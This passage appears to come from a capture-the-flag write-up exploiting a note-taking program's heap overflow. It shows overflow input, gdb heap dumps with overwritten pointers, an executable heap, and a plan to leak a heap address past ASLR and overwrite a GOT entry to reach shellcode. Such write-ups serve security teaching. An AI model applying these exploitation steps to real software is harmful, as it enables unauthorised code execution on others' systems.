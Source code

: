 ```
1
Please enter one of the following option:
1 to add a Note.
2 to delete a Note.
3 to edit a Note.
4 to show a Note.
5 to exit.
Your Choice:
3
Give the Note id to edit:
0
Give the type to edit:
2
Give your Note:
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRAAAABBBB
```

The heap for note two now looks like this:

```
gdb-peda$ x/60wx 0x804d0c0
0x804d0c0:  0x46464646  0x47474747  0x48484848  0x49494949
0x804d0d0:  0x4a4a4a4a  0x4b4b4b4b  0x4c4c4c4c  0x4d4d4d4d
0x804d0e0:  0x4e4e4e4e  0x4f4f4f4f  0x50505050  0x51515151
0x804d0f0:  0x52525252  0x41414141  0x42424242  0x4242420a
0x804d100:  0x0000000a  0x00000000  0x00000000  0x00000000
```

We have overwritten the pointers. Furthermore, superkojiman noticed:

```
gdb-peda$ vmmap
Start      End        Perm  Name
<snip>
0x0804c000 0x0804e000 rwxp  [heap]
```

The heap is writeable **and** executable. This allows us to store shellcode on the heap. Now to find a way to get the heap address reliably (ASLR is enabled) and overwrite a GOT pointer with the location of our shellcode. 

I recently tested c0ne's binaries for his Pandora's Box VM. I did one of the challenges in a similar way: overflow a buffer up to a certain pointer to grab extra bytes when that buffer is printed. I could leak the heap address by sending just enough bytes into note one to make the heap look like this:

```
gdb-peda$ x/60wx 0x804d0c0
0x804d0c0:  0x42424242  0x42424242  0x42424242  0x42424242
0x804d0d0:  0x42424242  0x42424242  0x42424242  0x42424242
0x804d0e0:  0x42424242  0x42424242  0x42424242  0x42424242
0x804d0f0:  0x4242420a  0x0804d1d0  0x0804d010  0x42424242
0x804d100:  0x0000000a  0x00000000  0x00000000  0x00000000
0x804d110:  0x00000000  0x00000000  0x00000000  0x00000000
```
